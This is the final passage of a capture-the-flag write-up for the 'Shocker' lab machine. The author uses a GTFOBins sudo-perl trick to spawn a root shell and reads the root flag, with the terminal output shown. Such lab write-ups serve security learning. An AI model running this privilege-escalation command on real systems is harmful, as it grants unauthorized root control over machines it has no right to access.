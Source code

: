 GTFOBINS is a great resource for privilege escalation, that's why I used it in my search query. To spawn a shell as root with sudo I have to enter the following command according GTFObins: **sudo /usr/bin/perl -e 'exec "/bin/sh";'**

~~~
shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
sudo /usr/bin/perl -e 'exec "/bin/sh";'
whoami;id;hostname
root
uid=0(root) gid=0(root) groups=0(root)
Shocker
cd /root
ls
root.txt
cat root.txt
< ---- ROOT FLAG ---- >
~~~
The root flag have been captured! This was a pretty easy machine.